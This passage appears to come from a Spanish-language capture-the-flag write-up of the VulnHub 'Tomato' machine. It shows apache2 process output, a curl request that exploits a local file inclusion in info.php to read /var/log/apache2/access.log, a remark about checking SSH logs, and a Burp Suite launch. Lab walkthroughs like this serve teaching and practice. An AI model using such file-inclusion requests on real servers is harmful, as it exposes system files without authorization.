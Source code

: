 ```bash
apache2  1039      8331.610326     30830   120      7855.137562      4737.642513   1851234.107397 0 0 /autogroup-54
         apache2  1040      8331.343655     30471   120      7368.094962      4823.875590   1725007.866973 0 0 /autogroup-54
         apache2  1053      8330.008953     30831   120      8019.641935      4953.698870   1622977.922131 0 0 /autogroup-54
         apache2  1056      8332.827490     30575   120      8086.261795      5047.627256   1855172.637849 0 0 /autogroup-54
         apache2  1073      8335.754695     16946   120      4558.624390      2880.603796   1578517.567941 0 0 /autogroup-54
R        apache2  1080      8329.754695       170   120        26.933569        40.603570   2153508.918094 0 0 /autogroup-54
         apache2  1085      8331.563953         8   120         1.614838        65.601362   1610872.152493 0 0 /autogroup-54
         apache2  1086      8331.973651        14   120         1.724281        55.755070   2107171.461693 0 0 /autogroup-54
```

Como esta usando `apache2` vamos a ver si podemos listar los `logs` pero no podemos

```bash
❯ curl -s X GET "http://192.168.1.65/antibot_image/antibots/info.php?image=/var/log/apache2/access.log" | grep "</body></html>" -A 1000 | sed 's/<\/div><\/body><\/html>//'


```

vamos a ver si los de `ssh` estan comtemplados y si

![](/assets/images/vh-writeup-tomato1/lfi.png)

Vamos a abrir `burpsuite` en 2 plano para hacer mas pruebas

```bash
burpsuite > /dev/null 2>&1 & disown
```
